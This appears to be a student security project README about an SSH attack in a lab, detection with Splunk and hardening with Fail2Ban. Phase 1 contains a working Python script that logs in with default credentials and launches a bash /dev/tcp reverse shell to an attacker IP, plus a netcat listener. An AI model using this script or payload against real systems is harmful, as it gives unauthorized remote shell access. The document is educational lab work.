# ICS344 Project: SSH Attack, Monitoring, and System Hardening
h

# Project Overview

This project demonstrates a complete attack-defense scenario involving SSH-based penetration, monitoring through Splunk, and hardening using Fail2Ban. It simulates a real-world environment where an attacker gains unauthorized access to a vulnerable server, while the defender uses monitoring tools to detect the breach and implements security measures to block further attacks.

The work is divided into three detailed phases:
- Phase 1: Performing an SSH reverse shell attack.
- Phase 2: Detecting and monitoring SSH activities with Splunk.
- Phase 3: Hardening the system against brute-force attacks using Fail2Ban.

Each phase reflects real-world methodologies, tools, and thinking processes essential for cybersecurity operations.


# Phase 1: SSH Reverse Shell Attack

## Goal and Strategy

The objective of Phase 1 is to simulate a successful SSH reverse shell attack against a vulnerable target. The goal is to achieve remote code execution by exploiting legitimate SSH credentials. A reverse shell is used to bypass firewall restrictions because the target machine initiates the outbound connection.

The mindset here is to think like an attacker: find the easiest available access (in this case, SSH with weak credentials) and establish persistent control over the victim.


## Steps and Thinking

### Step 1: Setting Up the Reverse Shell Script

Instead of using automatic tools, we wrote a custom Python script to demonstrate manual control. Writing a custom script mimics real-world attackers who often develop customized payloads to evade detection.

```python
import paramiko

# Target and Attacker IPs
target_ip = "192.168.142.131"
username = "vagrant"
password = "vagrant"
lhost = "192.168.142.129"
lport = "4444"

# Payload to open a reverse shell
payload = f"bash -c 'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'"

client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
client.connect(target_ip, username=username, password=password)
client.exec_command(payload)
client.close()
```

**Why:**
- `paramiko` is a Python library for SSH connections.
- A direct payload inside SSH allows running system commands.
- The payload redirects shell input/output to the attacker machine.

### Step 2: Setting Up the Listener on the Attacker Side

Before executing the reverse shell, we prepare the listener:

```
nc -lvnp 4444
```

**Why:**
- Netcat (`nc`) listens on TCP port 4444 for incoming connections from the reverse shell.
- Ensures that the attacker is ready to accept the shell as soon as the target script runs.

### Step 3: Execution and Shell Capture

Running the Python script from the victim machine results in:
- The attacker machine immediately receiving a shell.
- Validation using simple commands like `whoami` and `hostname`.

**Thinking:**
- The connection is established because the victim initiated it (firewall likely allowed it).
- No malware is uploaded; only native bash is used, making detection harder.


## Images





# Phase 2: SSH Attack Detection and Monitoring with Splunk

## Goal and Strategy

The goal of Phase 2 is to act like a defender. After the attack, defenders must monitor SSH activity and detect any anomalies. Splunk is used to aggregate and analyze authentication logs in real-time.

The mindset here is to think proactively: "How would I detect if someone is trying to brute-force my SSH server or establish unauthorized sessions?"


## Steps and Thinking

### Step 1: Setting Up Splunk Universal Forwarder (Victim Side)

Installation:

```
sudo dpkg -i splunkforwarder-9.4.1.deb
```

Configuration:

```
sudo /opt/splunkforwarder/bin/splunk start --accept-license
sudo /opt/splunkforwarder/bin/splunk login -auth admin:admin123
sudo /opt/splunkforwarder/bin/splunk add forward-server 192.168.142.129:9997
sudo /opt/splunkforwarder/bin/splunk add monitor /var/log/auth.log
```

**Why:**
- Splunk Forwarder pushes log files to Splunk Enterprise server.
- Monitoring `/var/log/auth.log` ensures SSH login attempts are captured.

### Step 2: Setting Up Splunk Enterprise (Attacker/Monitoring Side)

Installation:

```
sudo dpkg -i splunk-9.3.2.deb
sudo /opt/splunk/bin/splunk start --accept-license
```

Configuration:
- Enable port 9997 for receiving data.

**Why:**
- Centralizes all logs for easy searching and analysis.
- Prevents tampering on the victim since data is stored remotely.

### Step 3: Searching and Analyzing Logs

Query:

```
index=* source="/var/log/auth.log"
```

**Thinking:**
- Analyzing for unusual patterns like multiple failed logins.
- Detect reverse shell session openings/closings.

Dashboards were built using `eval` and `case` commands to classify successful and failed login events visually.


## Images
## Phase 2 Images

## Phase 2 Images

## Phase 2 Images













### Attacker Folder Images

### Phase 2 - Attacker Images







# Phase 3: Hardening with Fail2Ban

## Goal and Strategy

The goal in Phase 3 is to implement an automatic response to brute-force attacks by blocking malicious IP addresses.  
Fail2Ban watches log files and bans IPs that show malicious signs (e.g., too many failed login attempts).

The mindset here is: "Instead of only detecting, how do I **block attacks automatically** to protect my server?"


## Steps and Thinking

### Step 1: Installing Fail2Ban

```
sudo apt-get install fail2ban -y
```

**Why:**
- Fail2Ban automatically parses log files and triggers firewall rules.
- Protects services like SSH with minimal manual intervention.

### Step 2: Configuring Fail2Ban

Editing the SSH jail settings:

```
sudo nano /etc/fail2ban/jail.local
```

Configuration example:

```
[sshd]
enabled = true
port = ssh
logpath = /var/log/auth.log
maxretry = 3
bantime = 600
findtime = 300
```

**Thinking:**
- After 3 wrong password attempts within 5 minutes, the IP will be banned for 10 minutes.
- Short ban prevents brute-forcing and alerts administrators.

### Step 3: Testing Fail2Ban

From the attacker machine:
- Attempted wrong passwords repeatedly.
- Verified with:

```
sudo fail2ban-client status sshd
```

Result: IP address got banned, and SSH connections were blocked.


## Images





# Conclusion

This project effectively covered a complete lifecycle of an attack and defensive strategy. We simulated an SSH reverse shell attack using a custom Python script, monitored authentication logs through Splunk to detect anomalies, and finally hardened the system by automatically banning attackers with Fail2Ban.

Throughout the project, the thinking process focused on real-world attacker tactics and defender responses:
- **Offensive mindset:** Establish stealthy shell access.
- **Defensive mindset:** Detect unauthorized activities early.
- **Responsive mindset:** Automatically mitigate threats.

This exercise strengthens the understanding of cybersecurity operations, emphasizing proactive monitoring and quick automated defense.

